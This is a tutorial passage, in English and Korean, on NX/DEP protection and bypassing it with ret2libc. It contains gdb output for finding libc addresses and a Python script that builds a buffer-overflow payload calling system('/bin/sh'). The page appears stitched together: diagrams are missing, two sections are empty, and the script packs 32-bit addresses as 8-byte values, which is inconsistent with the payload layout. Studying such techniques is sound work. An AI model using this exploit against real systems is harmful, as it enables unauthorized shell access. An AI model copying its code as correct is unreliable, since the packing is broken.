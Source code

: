 # NX
Also known as Data Execution Prevention (DEP), this protection marks writable regions of memory as non-executable. This prevents the processor from executing in these marked regions of memory.

If we look at the memory map of a program compiled with NX protection, the stack and heap are typically marked non-executable.

In the following diagrams, we will be introducing a new indicator colour for the memory regions to denote 'writable and non-executable' mapped regions. Firstly, the stack before the read occurs looks like this:

When we perform the same attack, the buffer is overrun and the saved pointers are overwritten once again.

After the function returns, the program will set the instruction pointer to 0xbfff0000 and attempt to execute the instructions at that address. However, since the region of memory mapped at that address has no execution permissions, the program will crash.

Thus, the attacker's exploit is thwarted.

# Bypassing NX with Ret2Libc


![Fig 1. stack][classic1]

## 버퍼의 크기
## return address 위치 찾기
## system() 의 주소
```
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xb7e51b40 <__libc_system>

gdb-peda$ x/s 0xb7e51b40
0xb7e51b40 <__libc_system>:	"\203\354\f\213D$\020\350\061h\016"
```
## exit() 주소
system() 함수가 return되고 난 후 jump할 위치를 지정해야 한다.
사실 system("/bin/sh")가 호출되는 순간 이미 exploit에 성공했으므로 이 부분은 적당히 Fake 값으로 대충 "AAAA" 로 채워넣어도 무방하다.
하지만 차이점이 있다면 쉘 획득 후 작업을 종료하고 나갈 때 Error가 발생한다.
이 부분까지 깔끔하게 처리하고 싶다면 exit()의 주소를 찾은 후 이것을 호출하게 하면 마치 정상적으로 종료되는 것처럼 보이게 할 수 있다.
```
gdb-peda$ p exit
$2 = {<text variable, no debug info>} 0xb7e457f0 <__GI_exit>

gdb-peda$ x/s 0xb7e457f0
0xb7e457f0 <__GI_exit>:	"\350\204+\017"
```
이렇게 얻은 exit()의 주소는 `0xb7e457f0`이다.

## /bin/sh
system()의 인자로 전달할 브레이크 포인트 걸어놓고 실행한 상태에서
```
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xb7f748c8 ("/bin/sh")
```

## Exploit code
```
from struct import *

system_addr = 0xb7e51b40 
binsh_addr  = 0xb7f748c8
exit_addr   = 0xb7e457f0

payload = "A" * 32                           # buf

payload += "A" * 4                           # ebx

payload += pack("<Q", system_addr)           # ret addr : system()

#payload += "B" * 4                          # return of system(), fake value (don't care error msg)
payload += pack("<Q", exit_addr)             # to avoid closing error, use exit() func addr

payload += pack("<Q", binsh_addr)            # /bin/sh addr

f = open("in.txt", "w")
f.write(payload)
```



[classic1]: ./nxstack_view.png
